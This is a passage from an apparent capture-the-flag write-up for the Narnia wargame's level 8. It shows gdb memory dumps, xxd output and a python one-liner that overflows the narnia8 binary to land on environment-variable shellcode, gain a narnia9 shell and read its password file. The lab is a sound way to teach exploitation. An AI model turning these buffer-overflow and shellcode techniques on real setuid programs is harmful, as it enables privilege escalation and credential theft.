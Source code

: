 ```
0xffffd680:     0x41414141      0x41414141      0x41414141      0xffffd8a1
0xffffd690:     0x41414141      0x41414141      0x41414141      0xffffdf08
0xffffd6a0:     0xffffd8a1      0x00000000      0x080484b9      0xf7fceff4
0xffffd6b0:     0x080484b0      0x00000000      0x00000000      0xf7e454b3
0xffffd6c0:     0x00000002      0xffffd754      0xffffd760      0xf7fd3000
0xffffd6d0:     0x00000000      0xffffd71c      0xffffd760      0x00000000
0xffffd6e0:     0x0804820c      0xf7fceff4      0x00000000      0x00000000
0xffffd6f0:     0x00000000      0x64f5254f      0x53f0415f      0x00000000
0xffffd700:     0x00000000      0x00000000      0x00000002      0x08048340
0xffffd710:     0x00000000      0xf7ff0a90      0xf7e453c9      0xf7ffcff4
0xffffd720:     0x00000002      0x08048340
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAA¡ØÿÿAAAAAAAAAAAßÿÿ¡Øÿÿ
 
Breakpoint 3, 0xffffdf08 in ?? ()
(gdb) c
Continuing.
process 10175 is executing new program: /proc/10175/exe
/proc/10175/exe: Permission denied.
```

NOTE: I had to change the memory address for blah, as it changed again after the shellcode was added to an environment variable.

Unfortunately though in GDB I was able to hit the shellcode successfully but outside GDB I was not able to successfully land on my nope sled and hit my shellcode. So wghat I decided to do pipe my output in xxd, like I did originally to identify the memory addresses, to see what they are being changed too.

```
narnia8@melinda:/narnia$ ./narnia8 $(python -c'print("\x41"*20 + "\xa0\xd8\xff\xff" + "\x41"*12 + "\x08\xdf\xff\xff")')
AAAAAAAAAAAAAAAAAAAA Aÿÿÿÿÿÿñå÷èÖÿ¯Øÿÿ
narnia8@melinda:/narnia$ ./narnia8 $(python -c'print("\x41"*20 + "\xa0\xd8\xff\xff" + "\x41"*12 + "\x08\xdf\xff\xff")') | xxd
0000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000010: 4141 4141 a041 ffff ffff ffff 16f1 e5f7  AAAA.A..........
0000020: e8d6 ffff 8d84 0408 afd8 ffff 0a         .............
```

In the output from xxd, I can see that the memory address for blah is being changed to 0xffffd8af, so my original value is being changed by 16 bytes. I made the modifications and run the code again.

```
narnia8@melinda:/narnia$ ./narnia8 $(python -c'print("\x41"*20 + "\xaf\xd8\xff\xff" + "\x41"*12 + "\x08\xdf\xff\xff")')
AAAAAAAAAAAAAAAAAAAA¯ØÿÿAAAAAAAAAAAßÿÿ¯Øÿÿ
$ whoami
narnia9
$ cat /etc/narnia_pass/narnia9

```
